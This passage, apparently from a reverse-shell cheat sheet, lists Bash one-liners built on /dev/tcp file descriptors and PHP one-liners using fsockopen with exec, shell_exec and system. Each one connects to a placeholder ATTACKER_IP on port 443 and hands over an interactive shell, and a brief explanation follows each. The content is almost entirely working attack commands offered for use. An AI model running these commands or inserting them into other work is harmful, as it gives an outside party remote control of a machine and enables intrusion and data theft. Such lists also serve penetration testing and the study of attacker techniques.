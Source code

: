 

### 2. Bash Read Line Reverse Shell
```
exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5 | while read line; do $line 2>&5 >&5; done
```
- Creates **file descriptor 5** for TCP socket.  
- Reads commands from attacker, executes, sends results back.  



### 3. Bash FD 196 Reverse Shell
```
0<&196;exec 196<>/dev/tcp/ATTACKER_IP/443; sh <&196 >&196 2>&196
```
- Uses **FD 196** to establish TCP connection.  
- Runs shell using that file descriptor.  



### 4. Bash FD 5 Reverse Shell
```
bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5
```
- Opens interactive shell.  
- Uses **FD 5** to handle input/output redirection.  



# 🐘 PHP Reverse Shells

### 1. PHP exec()
```
php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");'
```
- Opens socket to attacker.  
- Runs shell via `exec()`.  



### 2. PHP shell_exec()
```
php -r '$sock=fsockopen("ATTACKER_IP",443);shell_exec("sh <&3 >&3 2>&3");'
```
- Same as above, but uses `shell_exec()`.  



### 3. PHP system()
```
php -r '$sock=fsockopen("ATTACKER_IP",443);system("sh <&3 >&3 2>&3");'
```
- Uses `system()` function.  
- Directly shows command output.  


